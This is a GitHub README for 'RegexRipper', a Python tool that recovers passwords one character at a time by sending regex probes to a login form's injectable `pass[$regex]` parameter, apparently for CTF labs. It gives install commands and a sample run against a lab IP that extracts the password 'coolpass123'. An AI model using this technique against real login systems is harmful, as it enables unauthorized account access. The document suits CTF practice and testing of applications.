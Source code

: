 ![logo](./logo.png)

**RegexRipper** — A small Python3 tool that discovers a password character-by-character against a vulnerable `pass[$regex]` POST parameter (common in CTF-style vulnerable PHP apps). The tool sends carefully escaped regex probes and detects matches by comparing server responses.

---

## Features

* Detects password length by probing `^.{n}$` patterns.
* Discovers password one character at a time using escaped regex patterns (`re.escape`) to avoid meta-character injection.
* Supports a custom character set (includes letters, digits and a set of special characters by default).
* Optional success-marker substring detection (instead of response-length heuristics).
* Optional request delay to be polite / avoid simple rate-limits.
* Uses `requests.Session` and can accept an initial cookie string (e.g. `PHPSESSID=...`).
* `colorit` used optionally for a nicer banner, but the script runs if `colorit` is not installed.

---

## Installation

```bash
git clone https://github.com/HIJACKED1/Regex_Ripper
cd Regex_Ripper
# Before Run 'install.sh' You Should be upldate Python3 and Pip 
chmod +x install.sh && ./install.sh
```

---

## Validation

```bash
python3 Regex_Ripper.py --url http://10.10.150.52/login.php --user pedro --cookie 'PHPSESSID=qkb3sb***********' --max-len 20


    ____                       ____  _                      
   / __ \___  ____ ____  _  __/ __ \(_)___  ____  ___  _____
  / /_/ / _ \/ __ `/ _ \| |/_/ /_/ / / __ \/ __ \/ _ \/ ___/
 / _, _/  __/ /_/ /  __/>  </ _, _/ / /_/ / /_/ /  __/ /    
/_/ |_|\___/\__, /\___/_/|_/_/ |_/_/ .___/ .___/\___/_/     
           /____/                 /_/   /_/                 
Drink Coffee                                        Author: HIJACKED1

Detecting password length (max 20)...
Password length found: 11
Starting character discovery...
Found so far: c
Found so far: co
Found so far: coo
Found so far: cool
Found so far: coolp
Found so far: coolpa
Found so far: coolpas
Found so far: coolpass
Found so far: coolpass1
Found so far: coolpass12
Found so far: coolpass123
[#] - Full password: coolpass123
```

---
## Secure

* Hash_Script : `c2ead9e3f624bf380f8ab7b7b6606ded`
